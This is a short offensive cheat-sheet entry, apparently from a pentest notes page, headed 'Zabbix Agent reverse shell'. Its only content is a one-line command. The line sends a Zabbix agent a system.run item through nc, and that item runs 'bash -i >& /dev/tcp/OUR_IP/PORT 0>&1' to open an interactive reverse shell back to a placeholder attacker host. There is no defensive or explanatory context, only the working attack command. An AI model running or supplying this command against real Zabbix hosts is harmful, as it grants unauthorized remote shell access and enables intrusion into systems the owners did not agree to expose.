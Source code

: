 ### Zabbix Agent reverse shell

### Command:

#### echo "system.run[bash -c 'bash -i >& /dev/tcp/OUR_IP/PORT 0>&1']" | nc ZABBIX_HOST_IP PORT

